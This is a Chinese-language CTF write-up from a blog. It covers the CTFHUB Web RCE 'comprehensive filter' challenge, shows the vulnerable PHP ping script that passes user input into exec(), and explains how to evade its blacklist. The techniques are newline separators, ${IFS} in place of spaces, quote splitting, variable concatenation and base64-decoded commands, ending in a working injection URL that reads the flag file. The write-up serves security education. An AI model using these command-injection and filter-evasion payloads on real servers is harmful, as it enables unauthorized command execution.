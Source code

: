 ```yaml
---
layout:     post
title:      "CTFHUB 技能树-Web-RCE-综合过滤 wp"
subtitle:   ""
date:       2020-03-05 21:20:00
author:     "WuJ"
header-img: "img/post-bg-ctfhub.jpg"
tags:
    - CTFHUB
    - writeup
catalog: true
---
```




## 题目考点

- 命令执行绕过

--------

## 解题思路

![Xnip2020-03-05_20-57-49](https://tva1.sinaimg.cn/large/00831rSTgy1gcjclhhorrj310y0u0jwt.jpg)

​		给了源码，发现过滤了 `| & ; 空格 cat flag ctfhub`

​		如果输入上述符号或命令，只会回显其本身而不会被执行，需要一个个绕过

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

#### 命令分隔符

​		因为 | 和 ; 被过滤，首先要想办法分隔命令，可以使用多种绕过方法，一般用换行即 `%0a %0d` 即可。当然，得抓包修改，直接敲在输入框里肯定不行。

![Xnip2020-03-05_21-00-11](https://tva1.sinaimg.cn/large/00831rSTgy1gcjcnz5t9dj31310u0qtk.jpg)

我们发现 `flag_is_here` 文件夹，下一步是想办法进去

#### 绕过空格

方法很多，一般可以使用 `${IFS}`，更多请参考谷歌

#### 绕过黑名单

1. 拼接绕过

   ```shell
   ~$ echo "hello world" > flag
   ~$ a=c;b=at;c=flag;$a$b $c
   hello world
   ```

2. 单双引号

   ```shell
   ~$ c''at f''lag
   hello world
   ```

3. base64绕过

   ```shell
   ~$ `echo "Y2F0IGZsYWc="|base64 -d`
   hello world
   ```

   ![Xnip2020-03-05_21-10-57](https://tva1.sinaimg.cn/large/00831rSTgy1gcjcywtw6kj31cu0u0qkt.jpg)

   找到 flag 文件，运用上述知识继续读 flag

   ```php
   /?ip=%0acd${IFS}f''lag_is_here%0ac''at${IFS}f''lag_244281822710491.php
   ```

![Xnip2020-03-05_21-12-30](https://tva1.sinaimg.cn/large/00831rSTgy1gcjd2bvlntj31cl0u0ngq.jpg)

